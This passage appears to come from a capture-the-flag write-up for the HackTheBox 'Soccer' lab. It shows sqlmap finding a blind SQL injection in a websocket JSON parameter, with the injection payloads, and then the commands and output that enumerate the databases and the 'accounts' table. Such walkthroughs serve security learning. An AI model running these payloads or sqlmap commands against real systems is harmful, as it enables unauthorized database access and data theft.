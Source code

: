     [21:32:28] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
    (custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 373 HTTP(s) requests:
    ---
    Parameter: JSON id ((custom) POST) 
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause
        Payload: {"id": "-1533 OR 9982=9982"}

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"id": "1234 AND (SELECT 5403 FROM (SELECT(SLEEP(5)))gMBy)"}
    ---
    [21:32:37] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12
    ...[snip]...



It's using the `OR` structure for boolean rather than `UNION`.

### Enumerate DB

#### List Databases

Now that `sqlmap` has found an injection, I'll up-arrow and add `--dbs`
to the previous command. Theads are safe to do in a boolean injection,
so I'll add `--threads 10` to speed it up. It will pick up where it left
off and list the available databases:



    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ...[snip]...
    available databases [5]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] soccer_db
    [*] sys
    ...[snip]...



#### List Tables in soccer_db

`soccer_db` seems like the only non-default DB. I'll replace `--dbs`
with `-D soccer_db` to specify that database and then add `--tables` to
list the tables:



    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ...[snip]...
    Database: soccer_db
    [1 table]
    +----------+
    | accounts |
    +----------+
    ...[snip]...
